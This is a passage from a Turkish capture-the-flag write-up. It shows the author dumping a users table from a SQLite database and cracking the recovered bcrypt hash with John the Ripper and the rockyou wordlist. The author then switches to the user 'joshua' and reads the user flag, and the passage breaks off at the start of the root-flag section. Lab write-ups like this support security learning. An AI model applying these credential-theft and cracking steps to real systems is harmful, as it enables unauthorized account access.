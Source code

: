 Bu dosya bir SQLite veri tabanı dosyasıydı, bu yüzden SQLite ile etkileşime geçtim:

```bash
sqlite3
```

Aşağıdaki sorgu ile kullanıcılara ait kullanıcı adı ve parola bilgisini ele geçirdim:

```sql
SELECT * FROM users;
```

```text title="Output"
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Hash dizesinden parolayı elde etmek için John the Ripper aracını kullandım. Öncesinde bu hash dizesini bir dosyaya kaydettim:

```bash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt
```

John aracını aşağıdaki şekilde kullandım:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

```text title="Output" hl_lines="6"
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:01:05 DONE (2024-01-15 02:59) 0.01518g/s 20.77p/s 20.77c/s 20.77C/s winston..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

John, parolayı 1 dakika gibi kısa bir sürede buldu.

Bu bilgiler ile `joshua` kullanıcısına geçiş yaparak `svc` --> `joshua` yetki yükseltmesi gerçekleştirmiş oldum:

```bash
su joshua
```

Yeni kullanıcı hesabına geçiş yaptıktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
find / -name *user.txt -type f -exec cat {} \; 2> /dev/null
```

## Root Flag

Mevcut yetkilerimi daha da yükseltebilmek için bazı araştırmalar gerçekleştirdim. İlk olarak aşağıdaki kontrolü sağladım:
